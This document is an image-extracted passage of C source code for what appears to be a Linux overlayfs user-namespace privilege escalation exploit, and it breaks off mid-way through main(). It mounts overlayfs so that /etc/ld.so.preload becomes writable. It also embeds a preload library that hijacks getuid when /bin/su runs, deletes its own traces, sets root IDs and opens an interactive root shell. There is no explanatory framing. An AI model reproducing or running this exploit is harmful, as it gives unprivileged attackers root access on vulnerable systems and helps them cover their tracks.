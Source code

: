 #define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");